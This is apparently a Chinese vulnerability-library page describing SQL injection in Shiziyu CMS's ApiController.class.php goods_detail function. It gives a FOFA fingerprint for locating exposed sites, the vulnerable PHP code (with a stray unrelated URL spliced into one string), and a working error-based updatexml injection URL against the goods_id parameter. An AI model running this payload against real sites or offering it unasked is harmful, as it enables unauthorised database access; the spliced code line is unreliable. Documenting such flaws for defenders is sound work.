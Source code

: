 ```yaml
---
title: 狮子鱼CMS ApiController.class.php SQL注入漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - CMS漏洞
 - 狮子鱼CMS
---
```


# 狮子鱼CMS ApiController.class.php SQL注入漏洞

## 漏洞描述

狮子鱼CMS ApiController.class.php  参数过滤存在不严谨，导致SQL注入漏洞

## 漏洞影响

> [!NOTE]
>
> 狮子鱼CMS

## FOFA

> [!NOTE]
>
> "/seller.php?s=/Public/login"

## 漏洞复现

登录页面如下

![](/img/20210924013728967023.png)

存在漏洞的文件为 **ApiController.class.php  **, 关键位置为

```php
public function goods_detail()
	{
		$goods_id = I('get.goods_id');
		//gallery =>img_url
		//goods goods.goods_desc  goods_name group_price  market_price  sell_count group_number 
		
		$sql="select g.*,gd.description,gd.summary,gd.tag from ".
		C('DB_PREFIX')."goods g,".C('DB_PREFIX')."goods_description gd where g.goods_id=gd.goods_id and g.goods_id=".$goods_id;
		
		$goods_arr=M()->query($sql);
		
		$qian=array("\r\n");
		$hou=array("<br/>");
		$goods_arr[0]['summary'] = str_replace($qian,$hou,$goods_arr[0]['summary']); 
		
		$sql="select image from ".C('DB_PREFIX')."goods_image where goods_id=".$goods_id;
		$goods_image=M()->query($sql);
		
		$gallery = array();
		$default_image = '';
		foreach($goods_image as $val)
		{
			$val['img_url'] = str_replace('http','https',C('SITE_URL')).'/Uploads/ http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/'.$val['image'];
			
			if(empty($default_image))
			{
				$default_image = str_replace('http','https',C('SITE_URL')).resize($val['image'], C('goods_thumb_width'), C('goods_thumb_height'));
			}
			
			$gallery[] = array('img_url' => $val['img_url']); 
		}
		
		$goods = $goods_arr[0];
```

![](/img/20210924013729144917.png)

漏洞测试为

```
https://xxx.xxx.xx.xxx/index.php?s=api/goods_detail&goods_id=1%20and%20updatexml(1,concat(0x7e,md5(1),0x7e),1)
```

![](/img/20210924013729749268.png)
